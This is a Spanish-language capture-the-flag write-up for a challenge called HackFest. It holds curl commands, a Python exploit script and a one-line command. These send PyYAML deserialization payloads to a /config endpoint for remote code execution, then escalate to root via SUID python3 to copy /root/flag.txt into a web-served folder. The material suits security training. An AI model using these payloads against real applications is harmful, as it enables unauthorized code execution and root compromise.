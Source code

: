 # 🚩 HackFest CTF - Writeup

## 🚀 **INICIO RÁPIDO**

```bash
# Levantar CTF
sudo docker-compose up -d

# Verificar funcionamiento
curl -s https://hackfest-railway-production.up.railway.app | grep -o '<title>.*</title>'
```

**CTF disponible en:** https://hackfest-railway-production.up.railway.app

---

## 🎯 **EXPLOTACIÓN DIRECTA**

### **1. Reconocimiento**
```bash
# Información del sistema
curl -s https://hackfest-railway-production.up.railway.app/api/system | jq .
```

### **2. Explotar PyYAML RCE**
```bash
# Probar endpoint vulnerable
curl -s -X POST https://hackfest-railway-production.up.railway.app/config \
  -H "Content-Type: application/x-yaml" \
  -d "test: value"

# Verificar RCE
curl -s -X POST https://hackfest-railway-production.up.railway.app/config \
  -H "Content-Type: application/x-yaml" \
  -d $'!!python/object/apply:os.system\n- id'
```

### **3. Escalada de Privilegios + Exfiltración**
```bash
# Exploit PyYAML RCE + Escalada de privilegios (funciona en Railway)
curl -s -X POST https://hackfest-railway-production.up.railway.app/config \
  -H "Content-Type: application/x-yaml" \
  -d $'!!python/object/apply:exec\n- |\n  import subprocess\n  import os\n  \n  # Encontrar dónde busca realmente el endpoint uploads\n  file_path = "/app/backend/app.py"\n  upload_folder = os.path.join(os.path.dirname(file_path), "static")\n  \n  # Crear el directorio\n  os.makedirs(upload_folder, exist_ok=True)\n  \n  # Leer la flag y escribirla\n  flag = subprocess.check_output(["sudo", "cat", "/root/flag.txt"]).decode()\n  \n  # Escribir la flag en el lugar correcto\n  with open(os.path.join(upload_folder, "flag.txt"), "w") as f:\n    f.write(flag)'
```

### **4. Obtener Flag**
```bash
# Descargar flag exfiltrada
curl -s https://hackfest-railway-production.up.railway.app/uploads/flag.txt
```

---

## 🐍 **SCRIPT DE EXPLOIT**

```python
#!/usr/bin/env python3
import requests

BASE_URL = "https://hackfest-railway-production.up.railway.app"

def exploit():
    print("🚀 HackFest CTF - Exploit")

    # Payload PyYAML RCE + Escalada + Exfiltración (Railway version)
    payload = """!!python/object/apply:exec
- |
  import subprocess
  import os

  # Encontrar dónde busca realmente el endpoint uploads
  file_path = "/app/backend/app.py"
  upload_folder = os.path.join(os.path.dirname(file_path), "static")

  # Crear el directorio
  os.makedirs(upload_folder, exist_ok=True)

  # Leer la flag y escribirla
  flag = subprocess.check_output(["sudo", "cat", "/root/flag.txt"]).decode()

  # Escribir la flag en el lugar correcto
  with open(os.path.join(upload_folder, "flag.txt"), "w") as f:
    f.write(flag)"""

    print("1. Explotando PyYAML RCE...")
    r = requests.post(f"{BASE_URL}/config",
                     headers={'Content-Type': 'application/x-yaml'},
                     data=payload)

    if r.status_code == 200:
        print("✅ Exploit exitoso")

        print("2. Obteniendo flag...")
        flag_response = requests.get(f"{BASE_URL}/uploads/flag.txt")

        if flag_response.status_code == 200:
            flag = flag_response.text.split('\n')[0]  # Primera línea contiene la flag
            print(f"🏆 FLAG: {flag}")
        else:
            print("❌ Error obteniendo flag")
    else:
        print("❌ Error en exploit")

if __name__ == "__main__":
    exploit()
```

---

## 🔧 **DETALLES TÉCNICOS**

### **Vulnerabilidad**
- **PyYAML RCE**: `yaml.load()` con `UnsafeLoader`
- **Endpoint**: `/config` acepta YAML malicioso
- **Escalada**: `python3` con bit SUID permite ejecución como root

### **Arquitectura**
```
Cliente → Frontend (puerto 3000) → Backend (interno) → Sistema
```

### **Exfiltración**
- **Origen**: `/root/flag.txt` (solo root puede leer)
- **Destino**: `/app/static/flag.txt` (mapeado internamente)
- **Acceso**: `https://hackfest-railway-production.up.railway.app/uploads/flag.txt`

---

## 🏆 **FLAG**
```
HACKFEST{y4ml_rce_si_has_llegado_eres_god_freeeee}
```

---

## ⚡ **COMANDO ÚNICO**

```bash
# Exploit completo en una línea
curl -s -X POST https://hackfest-railway-production.up.railway.app/config -H "Content-Type: application/x-yaml" -d $'!!python/object/apply:os.system\n- python3 -c "import os; os.setuid(0); os.system(\'cp /root/flag.txt /app/static/flag.txt && chmod 644 /app/static/flag.txt\')"' && curl -s https://hackfest-railway-production.up.railway.app/uploads/flag.txt
```
